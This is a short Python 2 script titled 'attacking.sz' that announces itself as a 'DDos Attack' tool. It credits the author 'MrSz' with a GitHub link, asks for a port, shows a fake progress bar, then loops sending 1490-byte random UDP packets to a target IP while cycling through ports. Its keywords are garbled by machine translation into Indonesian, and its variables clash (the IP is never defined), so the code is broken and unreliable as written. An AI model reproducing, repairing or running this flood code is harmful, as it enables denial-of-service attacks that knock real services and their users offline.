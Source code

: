 # attacking.sz
Attacking target
impor sys
impor os
waktu impor
soket impor
impor acak
# Kode Waktu
dari datetime impor datetime
sekarang = datetime.now ()
jam = sekarang
menit = now.minute
hari = now.day
bulan = now.month
tahun = sekarang. tahun

# ##############
sock = socket.socket (socket. AF_INET , socket. SOCK_DGRAM )
bytes  = random._urandom ( 1490 )
# #############

os.system ( " hapus " )
os.system ( " figlet DDos Attack " )
mencetak
cetak  " Penulis: MrSz "
cetak  " github: https://github.com/MrSz84799 "
port =  input ( " Port: " )

os.system ( " hapus " )
os.system ( " Mulai Serangan figlet " )
cetak  " [] 0% "
time.sleep ( 5 )
cetak  " [=====] 25% "
time.sleep ( 5 )
cetak  " [==========] 50% "
time.sleep ( 5 )
cetak  " [===============] 75% "
time.sleep ( 5 )
cetak  " [====================]] 100% "
time.sleep ( 3 )
terkirim =  0
sementara  Benar :
     sock.sendto ( bytes , (ip, port))
     pengirimannya = dikirim +  1
     Port = pelabuhan +  1
     print  "Paket % s terkirim ke port % s throught: % s " % (terkirim, ip, port)
     jika port ==  65534 :
       port =  1
